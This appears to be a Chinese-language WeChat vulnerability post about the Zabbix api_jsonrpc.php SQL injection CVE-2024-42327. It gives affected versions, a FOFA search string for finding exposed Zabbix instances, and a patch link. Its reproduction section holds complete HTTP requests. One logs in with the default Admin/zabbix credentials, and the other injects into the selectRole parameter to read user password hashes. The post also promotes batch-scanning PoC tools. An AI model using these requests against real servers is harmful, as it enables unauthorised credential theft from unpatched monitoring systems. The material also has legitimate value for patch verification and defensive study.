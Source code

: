#  Zabbix api_jsonrpc.php接口存在SQL注入漏洞CVE-2024-42327 附POC   
2024-12-4更新  南风漏洞复现文库   2024-12-04 15:08  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Zabbix 简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
Zabbix是Zabbix公司的一套开源的监控系统。  
## 2.漏洞描述  
  
Zabbix是Zabbix公司的一套开源的监控系统。该系统支持网络监控、服务器监控、云监控和应用监控等。Zabbix 6.0.0至6.0.31版本、6.4.0至6.4.16版本和7.0.0版本存在SQL注入漏洞，该漏洞源于CUser类的addRelatedObjects函数中存在SQL注入漏洞，允许攻击者操纵数据库查询。  
  
CVE编号:CVE-2024-42327  
  
CNNVD编号:CNNVD-202411-3698  
  
CNVD编号:  
## 3.影响版本  
  
Zabbix 6.0.0至6.0.31版本、6.4.0至6.4.16版本和7.0.0版本  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3b1S9TgibdwRVy2DJXcb1ep2UYtze4l5HTIN7cibfmibfjyxn6HteXEiaDDd3biabH7tiasjN7lpibI8skYQ/640?wx_fmt=png&from=appmsg "null")  
  
Zabbix api_jsonrpc.php接口存在SQL注入漏洞  
## 4.fofa查询语句  
  
app="ZABBIX-监控系统"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/api_jsonrpc.php  
  
漏洞数据包，使用默认账号密码获取token  
```
POST /api_jsonrpc.php HTTP/1.1
Content-Type: application/json-rpc
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Content-Length: 106
Expect: 100-continue
Connection: close

{"jsonrpc": "2.0", "method": "user.login", "params": {"username": "Admin", "password": "zabbix"}, "id": 1}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b1S9TgibdwRVy2DJXcb1ep2jUQ0bEjzm7EZ2fUqeYs1Hv7hiaNichLtwLEL6iagiboYdf8ajUR77gbI4w/640?wx_fmt=jpeg&from=appmsg "null")  
  
使用上面获取到的token，发送数据  
```
POST /api_jsonrpc.php HTTP/1.1
Content-Type: application/json-rpc
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Content-Length: 167
Expect: 100-continue
Connection: close

{"jsonrpc": "2.0", "method": "user.get", "params": {"selectRole": ["roleid, u.passwd", "roleid"], "userids": "1"}, "auth": "8575fed5d90754c4d3dd0049d084bdd0", "id": 1}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b1S9TgibdwRVy2DJXcb1ep2tGLFCeMiaoteAqRicXmOYtg4nkeE5RImbCibJHa5PAMS8gaoEWDADEewg/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b1S9TgibdwRVy2DJXcb1ep2AAhJRl40L86e15kbqeN3qYAxBKlyeGMVvzvngkS47TVW2Q6ibZaw7mw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b1S9TgibdwRVy2DJXcb1ep2M2TmU2gibEUADhwtP6tR28aHlobpSZt5AEx5eWia9F4wJyYwDzU3boCA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b1S9TgibdwRVy2DJXcb1ep2icwcmibkg12mWicPrqiag2ibeep9LhcKeH0zNp0icdpM2zHPMvcRKRtRz6iaQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b1S9TgibdwRVy2DJXcb1ep23EjXfGiaQsMujar0XicQ5j0MIC3exWTbiaL6JnrZ4OnEhk4b2ndzJxQng/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b1S9TgibdwRVy2DJXcb1ep2KeaQ0hO1GZs3qRKb4STKahQatB1PVgC6wic71uicBS1CDICCZTm1vhog/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
官方补丁 https://support.zabbix.com/browse/ZBX-25623  
## 8.往期回顾  
  
  
[九思OA软件jsoa/dl.jsp存在任意文件读取漏洞 附POC](https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487916&idx=1&sn=636bdfae861e5c01986212c20de3bdd8&scene=21#wechat_redirect)  
  
  
[jeecg-boot getTotalData接口存在SQL注入漏洞CVE-2024-48307 附POC](https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487903&idx=1&sn=b35a9a002067a9751d5d1d6db95cbabf&scene=21#wechat_redirect)  
  
  
